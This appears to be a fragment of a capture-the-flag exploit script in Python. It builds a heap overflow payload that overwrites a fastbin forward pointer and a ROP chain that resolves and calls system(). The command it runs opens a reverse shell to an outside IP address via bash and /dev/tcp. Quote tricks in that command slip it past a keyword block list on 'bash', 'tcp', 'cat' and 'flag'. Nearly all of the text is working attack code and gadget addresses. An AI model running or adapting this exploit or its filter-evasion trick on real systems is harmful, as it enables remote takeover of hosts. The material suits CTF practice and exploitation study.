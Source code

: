```plain

    # for k in [b"bash", b"flag", b"cat", b"tcp"]:
    #     assert k not in shellcode, "invalid sequence {} in shellcode".format(k)


    # assert len(shellcode) <= 0x1100 - 0x8
    overflow_fastbin_fd_payload =  b'"ccccccccccccc\u"   '
    overflow_fastbin_fd_payload += b'3' * (0x1100 - 0x8)
    overflow_fastbin_fd_payload += p64(0x41) # size of fastbin
    '''
    gdb-peda$ x/20gx 0x676020-8+2
    0x67601a:       0x51e8000000000000      0x51f0000000000045
    '''
    overflow_fastbin_fd_payload += p32(0x67601a) # fake fd, use p32 instead of p64 to save bytes
    overflow_fastbin_fd_payload += b'"'
    overflow_fastbin_fd_payload += b',' # not end
    # print("overflow_fastbin_fd_payload len {:#x}, raw_len {:#x}".format(len(overflow_fastbin_fd_payload), raw_len(overflow_fastbin_fd_payload)))

    dummy_alloc_payload =  b'"'
    dummy_alloc_payload += b'4' * 0x30
    dummy_alloc_payload += b'"'
    dummy_alloc_payload += b','
    # print("dummy_alloc_payload len {:#x}, raw_len {:#x}".format(len(dummy_alloc_payload), raw_len(dummy_alloc_payload)))


    '''
    gdb-peda$ x/5i 0x7fea5aabd050
   0x7fea5aabd050 <munmap>:     mov    eax,0xb
   0x7fea5aabd055 <munmap+5>:   syscall
   0x7fea5aabd057 <munmap+7>:   cmp    rax,0xfffffffffffff001
   0x7fea5aabd05d <munmap+13>:  jae    0x7fea5aabd060 <munmap+16>
   0x7fea5aabd05f <munmap+15>:  ret
    '''
    '''
    0x00000000004464e2, # xchg edx, ecx ; ret -> save heap pointer
    0x0000000000451151, # pop r8 ; mov dword ptr [rdx], eax ; xor eax, eax ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    0x0000000000401063, # pop rdx ; pop rbx ; pop rbp ; ret
    0x0000000000406862 : pop rsi ; ret
    0x0000000000404cb7 : pop rdi ; ret
    0x00000000004165af : add rax, rsi ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    '''
    ropchain = flat([
        0x0000000000450ab0, # mov rax, qword ptr [rdi + 0x28] ; ret
        0x0000000000406862, # pop rsi ; ret
        0xa0b0, # system - getenv
        0x00000000004165af, # add rax, rsi ; ret -> rax->system
        0x0000000000404cb7, # pop rdi ; ret
        0x6760c8, # cmd address
        0x0000000000408823, # add rsp, 0x328 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret -> sastisfy system
        b'x' * (0x328 + 6 * 8),
        0x000000000040853d, # call rax
    ])

    CMD = b"""bas'h' -i >& /dev/'t'cp/172.16.48.207/1234 0>&1;"""
    for k in [b'bash', b'flag', b'cat', b'tcp', b'"']:
        assert k not in CMD, "invalid sequence {} in CMD".format(k)

    # CMD = b"touch /tmp/test;"
```